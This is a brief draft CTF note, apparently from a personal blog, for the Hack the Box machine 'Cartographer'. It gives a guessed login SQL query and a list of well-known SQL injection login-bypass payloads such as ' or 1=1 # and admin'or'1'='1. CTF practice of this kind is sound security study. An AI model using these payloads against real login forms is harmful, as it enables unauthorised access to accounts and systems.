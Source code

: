 ```yaml
---
title: "Hack the Box——Cartographer"
date: 2020-02-17T18:28:06+08:00
showDate: true
draft: true
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```




可能的sql

`SELECT * FROM users WHERE username='' and password=''`

payload

`username`=`' or 1=1 #`&`password`=``

`username`=`' or '1'='1`&`password`=`' or '1'='1`

`username`=`' or '1`&`password`=`' or '1`

`username`=`admin'or'1'='1`&`password`=`` （前提是知道用户名）


`SELECT password FROM username`

